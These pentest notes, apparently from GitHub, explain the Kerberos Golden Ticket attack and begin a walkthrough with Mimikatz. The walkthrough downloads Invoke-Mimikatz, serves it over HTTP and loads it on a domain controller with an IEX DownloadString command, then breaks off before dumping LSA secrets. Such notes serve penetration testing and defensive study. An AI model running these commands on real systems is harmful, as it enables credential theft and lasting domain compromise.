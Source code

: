 - - <a href= "https://blog.quest.com/golden-ticket-attacks-how-they-work-and-how-to-defend-against-them/" style="color:bluesky">__Quest__ 

- - <a href= "https://stealthbits.com/blog/complete-domain-compromise-with-golden-tickets/" style="color:bluesky">__Stealthbits__

> Golden Ticket is a persistence method based on the construction of a TGT `(Ticket Granting Ticket)`, for which we need the hash of the `krbtgt` account, which is the one used to encrypt the ticket.

> `The KRBTGT account is a domain default account that acts as a service account for the Key Distribution Center (KDC) service`. 

> Once we have this hash it is possible to build a TGT with the `expiration` we want, and most importantly, with the permissions we want, even obtaining domain administrator privileges.

> Yes, you read that right, it's so crazy that we can maintain a 10-year persistence if we want to.

---

> Benjamin Delpy, discovered the `Golden Ticket` attack and since then various articles have been written around this topic and threat actors (Bronze Butler) are using this attack for domain persistence. This technique leverages the lack of validation on the Kerberos authentication protocol in order to impersonate a particular user valid or invalid. This is due to the fact that users that have a TGT (ticket granting ticket) in their current session will consider trusted for Kerberos and therefore can access any resource in the network.

#### <a href= "https://pentestlab.blog/2018/04/09/golden-ticket/" style="color:red">__PentestLab src__

---

> Let's have fun

> Once we are as administrators in the DC, we can start our tests with Invoke-mimikatz script from empire project (with the defender disabled)

> For the moment we are not going to try to obfuscate anything since we are still with simple tests, later we will activate the AV.

> Download Invoke-Mimikatz script in your machine.

```
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1
```

> Setup server in python3 

```
python3 -m http.server 8080
```

> From a powershell as DC Administrator, we launch the following command.

```
IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>:8080/Invoke-Mimikatz.ps1')
```

> Already loaded in the memory, let's dump the `lsa`

